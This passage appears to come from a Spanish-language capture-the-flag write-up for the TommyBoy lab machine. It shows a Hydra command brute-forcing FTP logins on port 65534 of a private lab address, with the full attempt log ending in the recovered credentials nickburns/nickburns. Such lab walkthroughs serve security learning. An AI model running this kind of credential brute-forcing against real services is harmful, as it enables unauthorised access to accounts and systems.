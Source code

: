 ## 5. Cracking ONLINE

- Ahora que tenemos el puerto TCP/65534 y tenemos usuarios, vamos a probar intentos de acceso no autorizado.
- El usuario nickburns lo encontramos en el POST protegido con contraseña.

```
┌──(root💀kali)-[~/TommyBoy]
└─# hydra -V -t 4 -L users.txt -P password.txt ftp://192.168.56.107:65534                                         130 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-02 22:29:28
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 36 login tries (l:9/p:4), ~9 tries per task
[DATA] attacking ftp://192.168.56.107:65534/
[ATTEMPT] target 192.168.56.107 - login "tommy" - pass "B34rcl4ws" - 1 of 36 [child 0] (0/0)
[ATTEMPT] target 192.168.56.107 - login "tommy" - pass "Z4l1nsky" - 2 of 36 [child 1] (0/0)
[ATTEMPT] target 192.168.56.107 - login "tommy" - pass "spanky" - 3 of 36 [child 2] (0/0)
[ATTEMPT] target 192.168.56.107 - login "tommy" - pass "nickburns" - 4 of 36 [child 3] (0/0)
[ATTEMPT] target 192.168.56.107 - login "richard" - pass "B34rcl4ws" - 5 of 36 [child 2] (0/0)
[ATTEMPT] target 192.168.56.107 - login "richard" - pass "Z4l1nsky" - 6 of 36 [child 1] (0/0)
[ATTEMPT] target 192.168.56.107 - login "richard" - pass "spanky" - 7 of 36 [child 3] (0/0)
[ATTEMPT] target 192.168.56.107 - login "richard" - pass "nickburns" - 8 of 36 [child 0] (0/0)
[ATTEMPT] target 192.168.56.107 - login "tom" - pass "B34rcl4ws" - 9 of 36 [child 0] (0/0)
[ATTEMPT] target 192.168.56.107 - login "tom" - pass "Z4l1nsky" - 10 of 36 [child 1] (0/0)
[ATTEMPT] target 192.168.56.107 - login "tom" - pass "spanky" - 11 of 36 [child 2] (0/0)
[ATTEMPT] target 192.168.56.107 - login "tom" - pass "nickburns" - 12 of 36 [child 3] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Tom Jr." - pass "B34rcl4ws" - 13 of 36 [child 1] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Tom Jr." - pass "Z4l1nsky" - 14 of 36 [child 0] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Tom Jr." - pass "spanky" - 15 of 36 [child 2] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Tom Jr." - pass "nickburns" - 16 of 36 [child 3] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Big Tom" - pass "B34rcl4ws" - 17 of 36 [child 1] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Big Tom" - pass "Z4l1nsky" - 18 of 36 [child 0] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Big Tom" - pass "spanky" - 19 of 36 [child 3] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Big Tom" - pass "nickburns" - 20 of 36 [child 2] (0/0)
[ATTEMPT] target 192.168.56.107 - login "michelle" - pass "B34rcl4ws" - 21 of 36 [child 1] (0/0)
[ATTEMPT] target 192.168.56.107 - login "michelle" - pass "Z4l1nsky" - 22 of 36 [child 0] (0/0)
[ATTEMPT] target 192.168.56.107 - login "michelle" - pass "spanky" - 23 of 36 [child 3] (0/0)
[ATTEMPT] target 192.168.56.107 - login "michelle" - pass "nickburns" - 24 of 36 [child 2] (0/0)
[ATTEMPT] target 192.168.56.107 - login "root" - pass "B34rcl4ws" - 25 of 36 [child 1] (0/0)
[ATTEMPT] target 192.168.56.107 - login "root" - pass "Z4l1nsky" - 26 of 36 [child 0] (0/0)
[ATTEMPT] target 192.168.56.107 - login "root" - pass "spanky" - 27 of 36 [child 3] (0/0)
[ATTEMPT] target 192.168.56.107 - login "root" - pass "nickburns" - 28 of 36 [child 2] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Nick" - pass "B34rcl4ws" - 29 of 36 [child 1] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Nick" - pass "Z4l1nsky" - 30 of 36 [child 0] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Nick" - pass "spanky" - 31 of 36 [child 3] (0/0)
[ATTEMPT] target 192.168.56.107 - login "Nick" - pass "nickburns" - 32 of 36 [child 2] (0/0)
[ATTEMPT] target 192.168.56.107 - login "nickburns" - pass "B34rcl4ws" - 33 of 36 [child 1] (0/0)
[ATTEMPT] target 192.168.56.107 - login "nickburns" - pass "Z4l1nsky" - 34 of 36 [child 0] (0/0)
[ATTEMPT] target 192.168.56.107 - login "nickburns" - pass "spanky" - 35 of 36 [child 3] (0/0)
[ATTEMPT] target 192.168.56.107 - login "nickburns" - pass "nickburns" - 36 of 36 [child 2] (0/0)
[65534][ftp] host: 192.168.56.107   login: nickburns   password: nickburns
```
